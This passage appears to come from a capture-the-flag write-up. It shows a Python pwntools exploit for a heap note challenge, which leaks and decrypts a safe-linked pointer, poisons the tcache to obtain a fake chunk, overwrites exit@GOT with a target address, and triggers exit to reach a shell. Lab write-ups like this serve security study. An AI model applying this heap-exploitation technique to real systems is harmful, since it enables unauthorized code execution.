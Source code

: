 ```python
print('leak : ', hex(cipher))

decrypted_leak = decrypt(cipher)

print('decrypt : ', hex(decrypted_leak))



pause()



fake_chunk_addr = 0x404110  # notes[7]



create(0, 0x60, p64(fake_chunk_addr ^ ((decrypted_leak >> 12))))  # A



create(1, 0x60, b'b')  # B



create(2, 0x60, b'a')  # A dup, malloc 리턴값 = notes[7]



create(3, 0x60, p64(elf.got['exit'])) # notes[7].ptr = exit@GOT



update(7, p64(0x401256)) 



p.sendline(b'1')



p.sendlineafter(b'idx: ', b'A') #exit

p.interactive()

```



![image.png](/assets/img/dh5note/image18.png)
